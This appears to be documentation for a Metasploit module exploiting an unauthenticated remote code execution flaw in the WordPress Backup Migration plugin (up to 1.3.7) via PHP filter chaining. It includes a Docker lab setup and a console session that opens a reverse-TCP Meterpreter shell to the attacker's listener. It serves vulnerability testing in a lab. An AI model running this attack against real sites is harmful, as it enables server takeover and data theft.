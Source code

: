## Vulnerable Application

This module exploits an unauth RCE in the WordPress plugin: Backup Migration (<= 1.3.7).  The vulnerability is
exploitable through the Content-Dir header which is sent to the /wp-content/plugins/backup-backup/includes/backup-heart.php endpoint.

The vuln makes use of a neat technique called PHP Filter Chaining which allows an attacker to prepend
bytes to a string by continuously chaining character encoding conversion. This allows an attacker to prepend
a PHP payload to a string which gets evaluated by a require statement, which results in command execution.

### Setup 

Spin up a Wordpress instance by running `docker-compose up` in the same directory as the `docker-compose.yml` file below:
```
version: "3"
# Defines which compose version to use
services:
  # Services line define which Docker images to run. In this case, it will be MySQL server and WordPress image.
  db:
    image: mysql:5.7
    # image: mysql:5.7 indicates the MySQL database container image from Docker Hub used in this installation.
    restart: always
    environment:
      MYSQL_ROOT_PASSWORD: MyR00tMySQLPa$$5w0rD
      MYSQL_DATABASE: MyWordPressDatabaseName
      MYSQL_USER: MyWordPressUser
      MYSQL_PASSWORD: Pa$$5w0rD
      # Previous four lines define the main variables needed for the MySQL container to work: database, database username, database user password, and the MySQL root password.
  wordpress:
    depends_on:
      - db
    image: wordpress:latest
    restart: always
    # Restart line controls the restart mode, meaning if the container stops running for any reason, it will restart the process immediately.
    ports:
      - "8000:80"
      # The previous line defines the port that the WordPress container will use. After successful installation, the full path will look like this: http://localhost:8000
    environment:
      WORDPRESS_DB_HOST: db:3306
      WORDPRESS_DB_USER: MyWordPressUser
      WORDPRESS_DB_PASSWORD: Pa$$5w0rD
      WORDPRESS_DB_NAME: MyWordPressDatabaseName
# Similar to MySQL image variables, the last four lines define the main variables needed for the WordPress container to work properly with the MySQL container.
    volumes:
      ["./:/var/www/html"]
volumes:
  mysql: {}
```

Download the vulnerable Backup Migration plugin: `https://downloads.wordpress.org/plugin/backup-backup.1.3.7.zip`.
Navigate to `http://localhost:8000` and you'll be redirected and asked to setup the WordPress site. This includes 
setting a username, password, email address for the admin user etc. Once the setup is complete login as the newly created
admin user and via the options on the left side of the screen navigate to the `Plugins` and select `Add New`. Upload the
`backup-backup.1.3.7.zip` file. You should now see `Backup Migration` in the list of Plugins, select `Activate` on the
plugin. You should now have a vulnerable instance running. 

## Verification Steps

1. Start msfconsole
1. Do: `use `
1. Set the `RHOST`, `USERNAME`, and `PASSWORD` options
1. Run the module
1. Receive a Meterpreter session in the context of the user running the WordPress application.

## Scenarios
### Backup Migration Plugin version: 1.3.7 (Containerized WordPress Version 6.0)
```
msf6 exploit(multi/http/wp_backup_migration_php_filter) > set rhosts 127.0.0.1
rhosts => 127.0.0.1
msf6 exploit(multi/http/wp_backup_migration_php_filter) > set rport 8000
rport => 8000
msf6 exploit(multi/http/wp_backup_migration_php_filter) > set lhost 192.168.123.1
lhost => 192.168.123.1
msf6 exploit(multi/http/wp_backup_migration_php_filter) > options

Module options (exploit/multi/http/wp_backup_migration_php_filter):

   Name              Current Setting  Required  Description
   ----              ---------------  --------  -----------
   PAYLOAD_FILENAME  ONxu.php       yes       The filename for the payload to be used on the target host (%RAND%.php by default)
   Proxies                            no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS            127.0.0.1        yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT             8000             yes       The target port (TCP)
   SSL               false            no        Negotiate SSL/TLS for outgoing connections
   TARGETURI         /                yes       The base path to the wordpress application
   VHOST                              no        HTTP server virtual host


Payload options (php/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  192.168.123.1    yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic



View the full module info with the info, or info -d command.

msf6 exploit(multi/http/wp_backup_migration_php_filter) > run

[*] Started reverse TCP handler on 192.168.123.1:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[*] WordPress Version: 6.0
[+] Detected Backup Migration Plugin version: 1.3.7
[+] The target appears to be vulnerable.
[*] Writing the payload to disk, character by character, please wait...
[*] Sending stage (39927 bytes) to 192.168.123.1
[+] Deleted L
[+] Deleted ONxu.php
[*] Meterpreter session 3 opened (192.168.123.1:4444 -> 192.168.123.1:56224) at 2024-01-11 12:17:34 -0500

meterpreter > getuid
Server username: www-data
meterpreter > sysinfo
Computer    : 856d06702f34
OS          : Linux 856d06702f34 6.5.11-linuxkit #1 SMP PREEMPT_DYNAMIC Wed Dec  6 17:14:50 UTC 2023 x86_64
Meterpreter : php/linux
meterpreter >
```
